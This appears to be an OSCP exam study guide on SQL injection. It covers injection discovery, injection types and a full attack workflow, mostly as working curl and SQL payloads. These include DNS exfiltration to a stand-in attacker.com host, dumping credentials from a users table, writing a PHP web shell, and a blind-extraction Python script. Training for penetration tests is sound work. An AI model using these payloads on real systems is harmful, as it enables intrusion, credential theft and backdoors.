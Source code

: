 # Enhanced OSCP SQL Injection Guide with Examples

## 1. Injection Point Discovery

### 1.1 Error Triggering  
Inject a quote to provoke SQL syntax errors.  
Example:  
```bash
curl -i "http://target/item.php?id=1'"
```
Response shows:
```
500 Internal Server Error
SQL syntax error near '' at line 1
```
This confirms an injectable parameter.

### 1.2 Boolean Test  
Compare true vs. false conditions.  
```bash
# True condition
curl -i "http://target/item.php?id=1 AND 1=1--"  
# False condition
curl -i "http://target/item.php?id=1 AND 1=2--"
```
If the first returns the normal page and the second returns a blank or error page, SQLi exists.

### 1.3 UNION Test  
Determine column count by incrementing columns until no error.  
```bash
# 1 column
curl -i "http://target/item.php?id=1 UNION SELECT 1--"  
# 2 columns
curl -i "http://target/item.php?id=1 UNION SELECT 1,2--"  
# 3 columns
curl -i "http://target/item.php?id=1 UNION SELECT 1,2,3--"
```
When a valid page renders (no error), note the column count (e.g., 3).

***

## 2. Differentiating Injection Types with Examples

### 2.1 Error-Based Injection  
**Indicator:** Error messages reveal data.  
Example – retrieve database version:  
```sql
?id=1 AND (SELECT CONCAT(CHAR(60,118,62),@@version,CHAR(60,47,118,62)))--  
```
Rendered page fragment: `<v>5.7.31</v>`

### 2.2 Union-Based Injection  
**Indicator:** Page echoes query results.  
Example – display version and user:  
```sql
?id=1 UNION SELECT @@version, user(), null--  
```
Page shows:
```
5.7.31    webapp@localhost
```

### 2.3 Boolean-Based Blind Injection  
**Indicator:** Page content changes without errors.  
Example – test first character of database name:  
```sql
?id=1 AND SUBSTRING(database(),1,1)='t'--  
```
- If page normal ⇒ true  
```sql
?id=1 AND SUBSTRING(database(),1,1)='x'--  
```
- If page blank ⇒ false  

### 2.4 Time-Based Blind Injection  
**Indicator:** Response delay indicates truth.  
Example – test if user() starts with “r”:  
```sql
?id=1 AND IF(LEFT(user(),1)='r',SLEEP(5),0)--  
```
If response delayed ≈5 s, condition true.

### 2.5 Out-of-Band (OOB) Injection  
**Indicator:** DNS lookup logged externally.  
Example – trigger DNS callback with version:  
```sql
?id=1; SELECT LOAD_FILE(CONCAT('\\\\',(SELECT @@version),'.attacker.com\\a'))--  
```
Observe DNS query for `5.7.31.attacker.com` on attacker DNS server.

***

## 3. Full Attack Workflow with Examples

1. **Detection**  
   ```bash
   curl -i "http://target/item.php?id=1'"
   ```
2. **Error-Based Extraction**  
   ```bash
   curl "http://target/item.php?id=1 AND (SELECT CONCAT(CHAR(60),user(),CHAR(62)))--"
   ```
3. **Determine Columns**  
   ```bash
   curl "http://target/item.php?id=1 UNION SELECT 1,2,3--"
   ```
4. **Enumerate Tables**  
   ```bash
   curl "http://target/item.php?id=1 UNION SELECT table_name,1,1 FROM information_schema.tables WHERE table_schema=database()--"
   ```
5. **Extract User Data**  
   ```bash
   curl "http://target/item.php?id=1 UNION SELECT username,password,1 FROM users--"
   ```
6. **Write Web Shell**  
   ```bash
   curl "http://target/item.php?id=1; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'--"
   ```

***

## 4. Automation Snippet (Boolean Blind)

```python
import requests

url = "http://target/item.php?id=1 AND ASCII(SUBSTRING((SELECT database()),{},1))={}--"
db_name = ""
for pos in range(1, 10):
    for char in range(48, 123):
        r = requests.get(url.format(pos, char))
        if "Welcome" in r.text:
            db_name += chr(char)
            print(f"Found char {pos}: {chr(char)}")
            break
print("Database:", db_name)
```

This script iterates positions and ASCII values, appending correct characters when the response indicates a true condition.

***

By integrating these concrete examples at each phase—detection, differentiation, exploitation—candidates can clearly identify SQLi types and apply the appropriate manual techniques in the OSCP exam.
